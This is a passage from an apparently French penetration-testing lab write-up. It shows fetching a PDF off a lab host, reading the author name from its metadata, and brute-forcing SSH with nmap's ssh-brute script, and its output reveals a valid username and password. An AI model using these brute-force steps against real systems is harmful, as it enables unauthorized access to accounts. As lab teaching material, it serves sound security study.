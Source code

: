 `wget 10.129.42.253/liste/doc2.pdf` et on le transfère pour pouvoir l'accéder sur notre machine (comme on a fait avec le document out2.pcap) en faisant `cp doc2.pdf /var/www/html/` 

Dès qu'on télécharge le document, on peut accéder ses propriétés et voir l'author **luigi** comme montre l'image ci-dessous:

![](./doc2-properties.png)


Alors, on peut essayer de brute-forcer pour trouver une mot de passe. Le problème c'est qu'on n'a pas patator dans la machine web1 pour nous aider à brute forcer. Alors, on peut utiliser nmap pour faire le brute force: 

`nmap 10.129.42.253 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt`

Et finalement, on arrive à trouver le mot de passe pour luiggi pour la machine web4:

```
Nmap scan report for 10.129.42.253
Host is up (-0.18s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     luiggi:sunshine - Valid credentials
|_  Statistics: Performed 52 guesses in 24 seconds, average tps: 2.0
MAC Address: 0A:5E:F7:99:0C:F5 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 25.94 seconds
```
